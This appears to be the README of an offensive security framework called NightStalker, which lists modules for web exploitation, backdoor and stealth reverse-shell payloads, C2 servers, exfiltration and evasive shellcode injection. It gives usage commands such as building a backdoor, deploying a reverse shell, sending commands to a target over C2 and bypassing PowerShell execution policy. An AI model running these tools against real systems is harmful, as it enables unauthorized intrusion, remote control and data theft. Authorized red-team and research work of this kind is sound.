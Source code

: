 # 🌙 NightStalker - Advanced Offensive Security Framework

A comprehensive offensive security framework featuring two specialized subsystems for web exploitation and advanced red teaming operations.

## 🚀 Quick Start

### 🌐 Web Exploitation (NightStalkerWeb)
```bash
# Install web exploitation framework
python setup/install_web_exploit_framework.py

# Launch TUI interface
python -m nightstalker.redteam.web_exploit_tui

# Or use CLI
python -m nightstalker.cli webred scan --url https://target.com
```

### 🦠 Malware & Red Teaming (NightStalker)
```bash
# Install full framework
pip install -r setup/requirements.txt

# Install CLI launcher (recommended)
chmod +x install_nightstalker.sh
./install_nightstalker.sh

# Use the launcher from anywhere
nightstalker                    # Interactive menu
nightstalker stealth build      # Build stealth payload
nightstalker stealth server     # Start C2 server
nightstalker stealth demo       # Run demonstration

# Or use direct CLI commands
python -m nightstalker.cli payload build --type backdoor --format python
python -m nightstalker.cli reverse-shell deploy
python -m nightstalker.cli redteam attack --target 10.0.0.5
```

### 🖥️ Windows Users
```cmd
# Use the batch file launcher (no PowerShell execution policy issues)
.\nightstalker.bat --help
.\nightstalker.bat stealth build --lhost 192.168.1.100 --lport 4444
.\nightstalker.bat stealth server --host 0.0.0.0 --port 4444

# Or use PowerShell launcher (requires execution policy bypass)
powershell -ExecutionPolicy Bypass -File nightstalker.ps1 --help
powershell -ExecutionPolicy Bypass -File nightstalker.ps1 stealth demo
```

## 📚 Documentation

### 📖 Core Documentation
- **[Main Documentation](docs/core/README.md)** - Complete project overview
- **[Directory Structure](docs/core/DIRECTORY_STRUCTURE.md)** - Project organization
- **[Framework Selection](docs/core/FRAMEWORK_SELECTION_GUIDE.md)** - Choose the right framework
- **[File Organization](docs/core/FILE_ORGANIZATION_GUIDE.md)** - File categorization
- **[Project Structure](docs/core/PROJECT_STRUCTURE_OVERVIEW.md)** - Visual structure overview

### 🌐 Web Exploitation Framework
- **[Web Framework Guide](docs/web/WEB_EXPLOIT_FRAMEWORK_README.md)** - Complete web exploitation guide
- **[Web Red Teaming](docs/web/WEB_RED_TEAMING_GUIDE.md)** - Web red teaming techniques

### 🦠 Red Teaming Framework
- **[Linux Deployment](docs/redteam/LINUX_DEPLOYMENT_GUIDE.md)** - Linux setup and deployment
- **[Exfiltration Guide](docs/redteam/EXFILTRATION_GUIDE.md)** - Data exfiltration techniques
- **[Covert Server](docs/redteam/COVERT_SERVER_GUIDE.md)** - Covert server setup
- **[Tor Setup](docs/redteam/TOR_QUICK_SETUP.md)** - Tor hidden service setup
- **[Reverse Shell Deployer](docs/REVERSE_SHELL_DEPLOYER.md)** - Reverse shell deployment with obfuscation
- **[Stealth C2 Guide](docs/STEALTH_C2_GUIDE.md)** - Covert command & control system
- **[Advanced Injector Guide](docs/ADVANCED_INJECTOR_GUIDE.md)** - Advanced shellcode injection with evasion
- **[Stealth Payload Guide](docs/STEALTH_PAYLOAD_GUIDE.md)** - Stealth reverse shell payload with anti-detection

## 🧪 Examples & Testing

### 📋 Examples
- **[Main Demo](examples/demo.py)** - Framework demonstration
- **[Payload Building](examples/payloads/)** - Payload creation examples
- **[Exfiltration](examples/exfiltration/)** - Data exfiltration examples
- **[Web Red Teaming](examples/webred/)** - Web exploitation examples
- **[Reverse Shell Demo](examples/reverse_shell_demo.py)** - Reverse shell deployment demonstration
- **[Advanced Injector](payloads/advanced_injector.cpp)** - Advanced shellcode injection with evasion
- **[Shellcode Generator](payloads/shellcode_generator.py)** - Shellcode generation and encryption utility
- **[Stealth Payload](payloads/stealth_reverse_shell.py)** - Stealth reverse shell with anti-detection
- **[Payload Builder](payloads/payload_builder.py)** - CLI payload builder with customization
- **[C2 Server](payloads/c2_server.py)** - Simple C2 server for testing
- **[Stealth Demo](payloads/demo_stealth_payload.py)** - Complete stealth payload demonstration
  nightstalker webred report --input results.json --output report.html
  nightstalker reverse-shell deploy
  nightstalker reverse-shell list
  nightstalker c2 deploy
  nightstalker c2 send --target-id TARGET001 --command "whoami"

### 🧪 Testing
- **[Unit Tests](tests/unit/)** - Individual component testing
- **[Integration Tests](tests/integration/)** - Framework integration testing
- **[Compatibility Tests](tests/compatibility/)** - Cross-platform testing

## 🛠️ Setup & Installation

### 📦 Installation Files
- **[Requirements](setup/requirements.txt)** - Python dependencies
- **[Setup Script](setup/setup.py)** - Framework installation
- **[Linux Installer](setup/install.sh)** - Linux installation script
- **[Web Framework Installer](setup/install_web_exploit_framework.py)** - Web framework setup

### 🎨 User Interfaces
- **[GUI Builder](scripts/gui_exe_builder.py)** - GUI payload builder
- **[Web TUI](nightstalker/redteam/web_exploit_tui.py)** - Web exploitation TUI

## 📊 Data & Configuration

### ⚙️ Configuration
- **[Config Directory](data/config/)** - Framework configuration files
- **[JSON Data](data/json/)** - JSON configuration and status files
- **[Log Files](data/logs/)** - Framework operation logs

## 🏗️ Framework Structure

### 🌐 NightStalkerWeb
```
nightstalker_web/
├── modules/          # Recon, exploit, bruteforce, post modules
├── tools/            # Installed security tools (Sn1per, etc.)
├── loot/             # Target-specific results
└── bin/              # Wrapper scripts
```

### 🦠 NightStalker
```
nightstalker/
├── redteam/          # Red teaming modules (C2, exfiltration, etc.)
├── pentest/          # Penetration testing
├── core/             # Core framework
├── builder/          # Payload building
└── cli.py            # Command-line interface
```

## 🎯 Use Cases

### 🌐 NightStalkerWeb
- **Web Application Security Testing**
- **Vulnerability Assessment**
- **Penetration Testing**
- **Bug Bounty Hunting**

### 🦠 NightStalker
- **Red Team Operations**
- **Advanced Persistent Threat Simulation**
- **Malware Research**
- **Incident Response Training**

## 🔒 Security & Ethics

**IMPORTANT**: This framework is designed for authorized security testing and educational purposes only.

- **Authorization Required**: Only test systems you own or have explicit permission to test
- **Educational Purpose**: Use for learning and authorized security assessments
- **No Malicious Use**: Do not use for unauthorized access or malicious activities
- **Compliance**: Follow all applicable laws and regulations

## 📞 Support

- **Documentation**: Check the guides in the `docs/` directory
- **Examples**: Review the example scripts in `examples/`
- **Testing**: Run tests in the `tests/` directory
- **Issues**: Report bugs on GitHub Issues

---

**Remember**: Always obtain proper authorization before testing any systems, and follow responsible disclosure practices when reporting vulnerabilities.

**Happy Hacking! 🎯** 